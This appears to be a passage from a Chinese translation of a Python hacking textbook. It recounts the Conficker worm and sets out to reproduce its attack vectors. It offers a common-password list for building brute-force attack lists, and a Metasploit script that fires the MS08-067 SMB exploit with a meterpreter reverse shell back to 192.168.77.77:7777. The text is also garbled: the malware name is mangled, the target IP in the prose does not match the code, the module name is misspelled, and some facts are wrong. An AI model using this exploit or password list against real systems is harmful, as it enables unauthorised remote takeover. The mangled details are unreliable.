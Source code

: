 ```py
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

虽然很多罪犯传播假的反病毒软件利用了 k985ytv 攻击作为许多的攻击向量之一。km985ytv 成功的攻陷了 11000 台主机中的 2220 台。总的来说，假冒的杀毒软件盗取了超过 43000000 的用户的信用卡信息在 2009 年，并还在持续增长中。这一百多行的代码还不错。在下一节中，我们将创建一个攻击了 200 多个国家 5 百万台主机的攻击向量。

## Conficker 蠕虫，为什么努力总是好的

2008 年下旬，计算机安全专家被一个有趣的改变游戏规则的蠕虫叫醒。Conficker 和 W32DownandUp 蠕虫如此迅速的蔓延，很快就感染了 200 多个国家的 5 百多万台主机。在一些先进(数字签名，有效的加密荷载，另类的传播方案)的辅助攻击中，Conficker 蠕虫非常用心，和 1988 年的 Morris 蠕虫有着相似的攻击向量。在接下来的章节中，我们将重现 Conficker 蠕虫的主要攻击向量。

在常规的感染的基础上，Conficker 利用了两个单独的攻击向量。首先，利用 Windows Server 系统的一个 0day 漏洞。利用这个漏洞，蠕虫能够引起堆栈溢出从而能够执行 Shellcode 并下载一个副本给受到感染的主机。当这种攻击方法失败时，Conficker 蠕虫尝试通过暴力破解默认的网络管理共享(`ADMIN$`)来获取受害人主机的管理权限。

## 密码攻击

在它的攻击中，Conficker 蠕虫利用了一个超过 250 个常用密码的密码列表。Morris 蠕虫曾使用的密码列表有 432 个密码。这两个非常成功的攻击有 11 个共同的密码。建立你自己的攻击列表时，是绝对值得包含这 11 个密码的。

```py
aaa
academia
anything
coffee
computer
cookie
oracle
password
secret
super
Unknown 
```

在几次大规模的攻击波中，黑客们发布了很多密码在网络上。而导致这些密码尝试的活动无疑是违法的。这些密码已经被安全专家研究证明是很有趣的。DARPA 计算机网络快速追踪项目管理人， Peiter Zatko 让整个房间的军队高层脸红，当他问到他们是否用两个大写字母，再加上两个特殊符号和两个数字组合来构建他们的密码时。此外，黑客组织 LulzSec 在 2011 年 6 月公布了 26000 个使用的密码和个人信息。在一次有组织的攻击中，这些密码被用来重复攻击同一个人的社交网站。然而，规模最大的攻击是一个新闻和八卦的博客网站泄漏了一百万的用户名和密码。

## 用 Metasploit 攻击 Windows SMB 服务

为了简化我们的攻击，我们将使用 Metasploit 框架，可以从下面的网站下载： [`metasploit.com/download/`](http://metasploit.com/download/) 。Metasploit 是开源的计算机安全项目，在过去的几年里正在得到快速的发展和普及并已经成为很受欢迎的渗透工具包。由传奇人物 HD Moore 倡导并开发的。Metasploit 允许渗透测试人员利用标准化的脚本环境发起数千种不同的渗透测试。发行版包含了 Conficker 蠕虫利用的漏洞，HD Moore 整合了这个渗透测试在 Metasploit 中---`ms08-067_netapi`。

利用 Metasploit 我们可以在攻击时进行交互，它也有能力读取批处理资源文件。Metasploit 按顺序处理，以便执行批处理文件中的命令进行攻击。例如，如果我们想攻击的目标主机为`192.168.13.37`，利用`ms80-067_netapi`渗透测试，并返回给`192.168.77.77`主机上的 7777 端口的一个 TCP Shell。

```py
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.37
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.77.77
set LPORT 7777
exploit –j –z 
```

